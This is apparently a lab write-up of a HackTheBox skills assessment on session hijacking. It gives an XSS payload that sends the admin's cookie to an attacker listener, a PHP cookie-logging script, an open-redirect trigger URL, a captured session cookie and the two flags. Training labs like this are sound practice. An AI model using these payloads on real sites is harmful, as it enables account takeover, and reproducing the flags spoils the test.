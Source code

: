 ```yaml
---
sticker: emoji//1f512
---
```

You are currently participating in a bug bounty program.

- The only URL in scope is `http://minilab.htb.net`
- Attacking end-users through client-side attacks is in scope for this particular bug bounty program.
- Test account credentials:
    - Email: heavycat106
    - Password: rocknrol
- Through dirbusting, you identified the following endpoint `http://minilab.htb.net/submit-solution`

Find a way to hijack an admin's session. Once you do that, answer the two questions below.

![](cybersecurity/images/Pasted%2520image%252020250219131413.png)
# First Question
---
Let's begin by checking the URL:

![](cybersecurity/images/Pasted%2520image%252020250219135123.png)

We can `Save`, `Share`, `Change Visibility` and `Delete`, we can begin by testing if the parameters are injectable to XSS:

![](cybersecurity/images/Pasted%2520image%252020250219135255.png)

Now, let's share:

![](cybersecurity/images/Pasted%2520image%252020250219135309.png)

There it is, it seems like the `Country` parameter is vulnerable to XSS, knowing this, we can craft a payload to get the admin credentials:

```js
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<TUN0IP>:PORT/index.php?c=' + document.cookie;"></video>
```

Next, create a `index.php` file with the following contents in it:

```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

Let's start the server:

```php
php -S IP:PORT
```

Now, once we've done this, in order to simulate that the admin user's visited the site, we need to go back and view the other endpoint:

```
http://minilab.htb.net/submit-solution
```

If we visit this, the following happens:

![](cybersecurity/images/Pasted%2520image%252020250219135805.png)

So, we got an `Open Redirect`, we need to specify `?url=` and submit the URL we want to redirect too, we can do the following:

```http
minilab.htb.net/submit-solution?url=http://minilab.htb.net/profile?email=julie.rogers@example.com
```

And, we'll see the following in our php server:

```log
[Wed Feb 19 19:06:55 2025] 10.129.136.191:51172 Accepted
[Wed Feb 19 19:06:55 2025] 10.129.136.191:51172 [302]: GET /index.php?c=auth-session=s%3A5IchvLZHGiNrCoU0u1Swpgdlq6WWWBJh.%2BeZAaKIbOJPi3GGw%2BW8A3r0%2Bjdb%2B%2FsVawbUxIB8oUdU
[Wed Feb 19 19:06:55 2025] 10.129.136.191:51172 Closing
```

If we check the site, we can see this:

![](cybersecurity/images/Pasted%2520image%252020250219140213.png)

It was indeed the admin user and we got the `auth-session` cookie, we can now authenticate as admin:

![](cybersecurity/images/Pasted%2520image%252020250219140807.png)

If we refresh the page:

![](cybersecurity/images/Pasted%2520image%252020250219140815.png)

We are now admin user, let's make it public:

![](cybersecurity/images/Pasted%2520image%252020250219140839.png)

If we go to share, we can see this:

![](cybersecurity/images/Pasted%2520image%252020250219140922.png)

We get the first flag, also, the yellow icon that says `Flag2`, downloads the pcap file for the next question, first flag is:

```
[YOU_ARE_A_SESSION_WARRIOR]
```

# Second Question
---

Now, let's open the pcap file:

![](cybersecurity/images/Pasted%2520image%252020250219142017.png)

We can filter:

![](cybersecurity/images/Pasted%2520image%252020250219142255.png)

We can see it selects the `Get /?redirect_uri` packet, if we open it, we can see this:

![](cybersecurity/images/Pasted%2520image%252020250219142323.png)

We got our flag:

```
FLAG{SUCCESS_YOU_PWN3D_US_H0PE_YOU_ENJ0YED}
```

![](cybersecurity/images/Pasted%2520image%252020250219142344.png)


